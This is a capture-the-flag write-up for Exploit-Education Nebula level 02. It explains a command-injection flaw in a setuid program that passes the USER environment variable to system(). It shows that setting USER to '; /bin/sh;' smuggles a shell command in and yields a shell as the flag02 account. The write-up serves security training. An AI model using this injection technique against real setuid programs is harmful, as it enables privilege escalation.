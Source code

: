 ```yaml
---
layout: single_c
title:  "Exploit-Education Nebula Level 02"
date:   2019-08-13 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
---
```

### [Exploit Education Level 2](https://exploit.education/nebula/level-02/)

## Challenge
[Challenge](https://exploit.education/nebula/level-02/)<br>
There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?
To do this level, log in as the `level02` account with the password `level02`. Files for this level can be found in `/home/flag02`.

## Vulnerability
This program is similar to the last challenge. 
```
asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
printf("about to call system(\"%s\")\n", buffer);
```
We can see here that the command echo is copied into the buffer along with the environment variable `USER`
if we replace the `USER` env variable with `;/bin/sh` a shell will be executed after the `echo` command

## Exploitation
The `flag02` program has the set user id bit set
```
-rwsr-x--- 1 flag02 level02 7438 2011-11-20 21:22 flag02
```
Lets add `; /bin/sh;` to the env variable and execute the program
```
level02@nebula:/home/flag02$ USER='; /bin/sh;'
level02@nebula:/home/flag02$ env | grep USER
USER=; /bin/sh;
level02@nebula:/home/flag02$ ./flag02
about to call system("/bin/echo ; /bin/sh; is cool")
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

### Solved!